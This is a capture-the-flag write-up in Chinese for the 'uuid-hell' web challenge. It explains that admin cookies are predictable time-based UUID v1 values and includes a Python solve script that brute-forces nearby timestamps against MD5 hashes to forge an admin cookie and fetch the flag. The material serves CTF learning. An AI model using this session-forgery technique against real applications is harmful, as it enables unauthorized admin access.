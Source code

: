 可以看到這題的目標是需要我們想辦法修改 cookie 成為任一個 admin，即可在 `/` 的 endpoint 下取得 flag

可以看到，admin 所需要的 credential 是 uuid，而從 randomUUID 的函式可以看到所使用的是 UUID v1，從[文件](https://www.npmjs.com/package/uuid?activeTab=readme#uuidv1options-buffer-offset)可看到 v1 為 timestamp relavent，而另外也可看到有設定 node 和 clockseq，代表 UUID 有後面幾碼可能會是一樣的
 
因此我們可以嘗試在生產 admin 的幾乎同時也順便產生一組 uuid，並一一爆破找出可能符合的 admin uuid

:::spoiler solve.py
```python
from hashlib import md5
import uuid
import requests

def gen_uuid() -> uuid.UUID:
    return uuid.uuid1(node=0x67696e6b6f69, clock_seq=0b10101001100100)
def parse_admins(text):
    admin_raw = text.split("<strong>")[1][30:-19]
    admin_list = admin_raw.split("</td></tr>\n<tr><td>")
    return admin_list

res = requests.post("https://uuid-hell.lac.tf/createadmin")
id = gen_uuid()
res = requests.post("https://uuid-hell.lac.tf/createadmin")
res = requests.get('https://uuid-hell.lac.tf/', cookies={"id":"404d89e0-aa37-11ed-aa64-67696e6b6f69"})
admin_list = parse_admins(res.text)

print(id)
print(admin_list[-1])

dt = 0
aim = 10
while(True):
    new_uuid_list = str(id).split("-")
    num = int(new_uuid_list[0], base=16)
    num += dt
    if(num > 0xffffffff):
        print("Error")
        exit(1)
    new_uuid_list[0] = hex(num)[2:]
    new_uuid = "-".join(new_uuid_list)
    # print(new_uuid)
    # break
    if(md5(b"admin"+new_uuid.encode()).hexdigest() in admin_list):
        print("UUID:", new_uuid)
        break
    dt += 1
    if(dt >= aim):
        print(dt, new_uuid)
        if(aim < 10000000):
            aim *= 10
        else:
            aim += 10000000

res = requests.get('https://uuid-hell.lac.tf/', cookies={"id":new_uuid})
print(res.text)
```
:::
